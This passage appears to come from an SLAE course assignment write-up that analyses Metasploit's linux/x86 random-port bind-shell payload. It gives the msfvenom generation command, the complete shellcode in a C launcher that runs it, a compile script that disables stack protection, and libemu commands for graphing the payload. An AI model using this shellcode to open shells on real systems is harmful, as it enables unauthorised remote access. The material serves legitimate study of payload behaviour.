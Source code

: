 The following command will generate the shellcode on C format: **msfvenom -p linux/x86/shell_bind_tcp_random_port -f c -a x86 --platform Linux**

![](../Images/10_slae_assignment_5.png)

``Shellcode generated for linux/x86/shell_bind_tcp_random_port``

This can be inserted in a *shellcode launcher* to debug the execution properly.
````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80"
"\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80"
"\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``

To compile the shellcode it is necessary to use the following bash script.

````
#!/bin/bash

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Furthermore, it is possible to get an schema of payload's functionality by issuing:

````
msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw -o shell_bind_tcp_random_port.bin
sudo /opt/libemu/bin/sctest -Ss 10000 -vvv -G shellcode_shell_bind_tcp_random_port.dot < shell_bind_tcp_random_port.bin
dot shellcode_shell_bind_tcp_random_port.dot  -T png > shellcode_shell_bind_tcp_random_port.png
````
``Commands to generate a graphical schema of the payload``
